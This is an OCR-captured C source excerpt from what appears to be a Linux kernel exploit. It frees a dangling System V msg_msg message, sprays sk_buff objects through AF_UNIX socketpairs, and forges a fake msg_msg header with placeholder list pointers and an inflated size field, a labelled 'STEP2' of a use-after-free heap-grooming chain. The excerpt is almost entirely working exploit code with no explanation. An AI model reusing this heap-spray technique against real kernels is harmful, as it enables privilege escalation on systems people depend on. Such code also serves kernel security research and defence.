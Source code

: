 ```c
int msg_msg_free(int queue_index, int size, int type)
{
    int target_queue = spray_queue[queue_index];
    struct msg_buf* message = malloc(0x1000);
    printf("msg_msg_free: free message\n");
    if (msgrcv(target_queue, message, size, type, IPC_NOWAIT) < 0)
    {
        perror("msg_msg_make_hole: msgrcv failed\n");
        exit(0);
    }
    free(message);
}

void sk_buff_create()
{
    int i;

    for(i = 0; i < SPRAY_SOCKET_FDCNT; i++)
    {
        if(socketpair(AF_UNIX, SOCK_STREAM, 0, socket_fd[i]) < 0)
        {
            perror("sk_buff_create: socketpair failed\n");
            exit(0);
        }
    }
}

void sk_buff_spray(void* buf, size_t size)
{
    int i, j;
    for (i = 0; i < SPRAY_SOCKET_FDCNT; i++)
    {
        for(j = 0; j < SPRAY_COUNT_PER_SOCKET_FD; j++)
        {
            if (write(socket_fd[i][0], buf, size) < 0)
            {
                perror("sk_buff_spray: failed write buffer");
                exit(0);
            }
        }
    }
}


/* ... */

    printf("[STEP2-1] free dangling queue %d and spray sk_buff\n", dangling_queue_index);
    sleep(1);
    msg_msg_free(spray_queue[dangling_queue_index], SPRAY_SIZE_KMALLOC_1024 ,MSG_TYPE_1024);
    
    sk_buff_create();
    /* make msg_msg buff*/
    struct msg_msg* sk_buff = (struct msg_msg*)malloc(SK_BUFF_SPRAY_SIZE);
    sk_buff->m_list.next = 0x4141414141414141;
    sk_buff->m_list.prev = 0x4242424242424242;
    sk_buff->m_type = MSG_TYPE_FAKE;
    sk_buff->m_ts = 8192 - 0x30;
    sk_buff->next = 0;
    sk_buff->security = 0;

    sk_buff_spray((void*)sk_buff, SK_BUFF_SPRAY_SIZE);

```